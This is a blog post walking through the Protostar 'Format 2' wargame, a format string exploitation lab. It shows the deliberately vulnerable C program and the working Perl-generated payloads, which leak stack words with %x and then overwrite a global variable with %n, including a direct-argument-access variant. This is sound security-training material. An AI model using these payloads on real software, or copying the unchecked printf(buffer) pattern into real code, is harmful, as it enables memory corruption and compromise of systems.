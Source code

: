 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 2"
date: 2012-01-31T05:13:00-05:00
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing from where we left off, we arrive at [Format 2](http://exploit-exercises.com/protostar/format2).  It presents us with the following code: 

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);
 printf(buffer);

 if(target == 64) {
  printf("you have modified the target :)\n");
 } else {
  printf("target is %d :(\n", target);
 }
}

int main(int argc, char **argv)
{
 vuln();
}
```

This challenge seems very similar to Format 1, in all but 2 ways:

1. The input is done via a fgets() instead of from the program arguments.
2. Instead of allowing just any change, it specifically requires "target" to be equal to "64".

We'll start pretty much the same way as last time, spamming "%x": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "AAAAAAAA" . "%x."x150'` | ./format2
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.a2e78.b7eada75.b7fd7ff4.80496b0.bffff7c8.8048338.b7ff1040.80496b0.bffff7f8.80484f9.b7fd8304.b7fd7ff4.80484e0.bffff7f8.b7ec6365.b7ff1040.bffff7f8.80484c6.80484e0.0.bffff878.b7eadc76.1.bffff8a4.bffff8ac.b7fe1848.bffff860.ffffffff.b7ffeff4.8048285.1.bffff860.b7ff0626.
target is 0 :(
```

This time, however, it seemed MUCH quicker to get the "41414141", only 4 words.  Let's verify: 

```
user@protostar:/opt/protostar/bin$ ./format2
AAAA%x%x%x%x
AAAA200b7fd8420bffff62441414141
target is 0 :(
```

So we're getting to a pretty good point, let's go ahead and find the memory address for "target": 

```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target
```

Next, let's put that address in, replacing the "AAAA": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%x"'` | ./format2
200b7fd8420bffff62480496e4
target is 0 :(
```

The address seems to be the last word, without any problems.  So if we convert the last "%x" to "%n", it should overwrite that address in memory with the count of characters printed: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%n"'` | ./format2
200b7fd8420bffff624
target is 23 :(
```

Unfortunately, only 23 characters were written.  We can increase that number artificially by just changing the format string from "%x" to "%44x".  This pads the string to be 44 characters long: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%44x%x%x%n"'` | ./format2
                                         200b7fd8420bffff624
you have modified the target :)
```

That's pretty much how it's done. 

And again, as bonus, if you want to use Direct Argument Access, you can simply do:

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%7\\\$60x%4\\\$n"'` | ./format2
                                                       a6e24
you have modified the target :)
```
